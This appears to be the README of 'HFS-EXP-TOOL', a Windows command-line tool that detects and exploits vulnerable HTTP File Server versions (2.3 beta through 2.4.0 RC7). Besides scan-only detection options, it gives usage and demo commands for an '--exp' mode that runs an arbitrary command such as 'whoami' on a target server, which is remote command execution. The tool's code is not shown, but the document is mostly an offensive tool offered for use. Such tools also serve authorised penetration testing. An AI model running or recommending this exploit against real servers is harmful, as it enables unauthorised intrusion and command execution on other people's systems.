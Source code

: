 # HFS-EXP-TOOL

HTTP File Server multipurpose tool, target version:
- 	HFS 2.3 beta
- 	HFS 2.3d
-   HFS 2.3m
-   HFS 2.3k
-   HFS 2.4.0 RC6
-   HFS 2.4.0 RC7

Usage:  
- hfs-exp-tool.exe --detect-url <protocol:host:port>
- hfs-exp-tool.exe --detect-file <filename>
- hfs-exp-tool.exe --exp <protocol:host:port> <command> [arguments...]

Demo:

Batch Inspection

```
.\hfs-exp-tool.exe --detect-file .\url.txt
```

Individual Detection Url

```
.\hfs-exp-tool.exe --detect-url http://127.0.0.1:8003
```

Exploitation Of Vulnerability

```
.\hfs-exp-tool.exe --exp http://127.0.0.1:8003 "whoami"
```
